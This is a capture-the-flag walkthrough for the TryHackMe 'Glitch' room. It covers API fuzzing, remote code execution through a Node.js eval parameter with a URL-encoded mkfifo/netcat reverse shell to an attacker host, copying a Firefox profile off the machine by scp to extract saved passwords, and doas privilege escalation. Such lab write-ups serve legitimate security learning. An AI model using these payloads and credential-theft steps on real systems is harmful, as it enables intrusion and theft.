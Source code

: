 ![GLITCH ROOM LOGO](./img/GLITCH.jpeg)
# GLITCH 
Challenge showcasing a web app and simple privilege escalation. Can you find the [glitch](https://tryhackme.com/room/glitch)?

## [Q1] Deploy the machine
Required OpenVPN to connect to corresponding server
## [Q2] What is your access token?
   Let's begin with scanning open ports of this machine

   ```
   $nmap -T4 <machine ip>

   Nmap scan report for <machine ip>
   Host is up (0.29s latency).
   Not shown: 999 filtered ports
   PORT   STATE SERVICE
   80/tcp open  http
   Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
   ```

   Port 80:
   ![Port 80](./img/site1.jpg)
   By looking at the source of the site, I found a script:

   ```JavaScript
    <script>
        function getAccess() {
            fetch('/api/access')
            .then((response) => response.json())
            .then((response) => {
                console.log(response);
            });
        }
    </script>
```

We can run the getAccess() function through the browser by console tab or browsing to \<machine ip>/api/access

![](./img/Console.jpg)

By decoding, we will get the original token and we should set that in our cookie

![Session cookie](./img/session.jpg)

## [Q3] What is the content of user.txt?
Now let's refresh the page.
Feel free to surf the site after that XD

***

Warning! The site contains blinking images and sensitive words.

***

After looking at source and linked [JS](./src/script.js) file, I figured out that there are serveral links in the page that interact with \<machine ip>/api/items/ 

\<machine ip>/api/items :
![/api/items](./img/items.jpg)

There is a hint on THM:

    What other methods does the API accept?

Let's check the methods by sending an **OPTION** http request
    
    Allow: GET,HEAD,POST

So we can fuzz the site to find valid arguments

    └─$wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 <machine ip>/api/items\?FUZZ\=test

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: <machine ip>/api/items?FUZZ=test
    Total requests: 3132

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================

    000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               

    Total time: 0
    Processed Requests: 3132
    Filtered Requests: 3131
    Requests/sec.: 0

Let's check cmd

    └─$ curl -X POST <machine ip>/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>


So it's a **Node.JS**. Maybe we can get rce by nodejs eval ...


Reverse shell payload:

    require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Attacker Port> >/tmp/f ')

First, We must encode the payload as URL and then we're good to go:

    └─$ curl -X POST http://10.10.49.107/api/items\?cmd\=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%3c%41%74%74%61%63%6b%65%72%20%49%50%3e%20%3c%41%74%74%61%63%6b%65%72%20%50%6f%72%74%3e%20%3e%2f%74%6d%70%2f%66%20%27%29

We have shell :D

    └─$ nc -nvlp 4444             
    listening on [any] 4444 ...
    connect to [<Attacker IP>] from (UNKNOWN) [<Machine IP>] 32804
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    user@ubuntu:/var/web$ ls /home
    ls /home
    user  v0id
    user@ubuntu:/var/web$ cd /home/user/ 
    cd /home/user/
    user@ubuntu:~$ cat user.txt
    cat user.txt
    THM{REDACTED}


## [Q4] What is the content of root.txt?

User's Home Directory:

    user@ubuntu:~$ ls -la
    ls -la
    total 48
    drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
    drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
    lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
    -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
    drwx------   2 user user  4096 Jan  4 13:41 .cache
    drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
    drwx------   3 user user  4096 Jan  4 13:41 .gnupg
    drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
    drwxrwxr-x   5 user user  4096 Apr  2 16:11 .pm2
    drwx------   2 user user  4096 Jan 21 08:47 .ssh
    -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt

linPEAS interesting results:

    [+] Checking doas.conf
    permit v0id as root  

    [+] Users with console
    root:x:0:0:root:/root:/bin/bash      
    user:x:1000:1000:user:/home/user:/bin/bash
    v0id:x:1001:1001:,,,:/home/v0id:/bin/bash

For now let's check firefox hidden directory by sending that to our attack machine

    user@ubuntu:~$ tar -cvf firefox.tgz .firefox 

    ---
    Don't forget to start ssh in your Attacker machine
    ---

    user@ubuntu:~$ scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    <Attacker Machine username>@<Attacker IP>'s password:

    firefox.tgz                                   100%   15MB 385.3KB/s   00:39 


Now in your attacker machine:

    └─$ tar -xvf firefox.tgz 
    └─$ firefox --profile .firefox/b5w4643p.default-release --allow-downgrade

This will open firefox browser and you can head to saved passwords

![void pass](./img/firefox.jpg)

Now with linPEAS output and saved password in firefox for v0id we can see /root/root.txt

    user@ubuntu:~$ su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    Password: 

    Password: 

    THM{REDACTED}
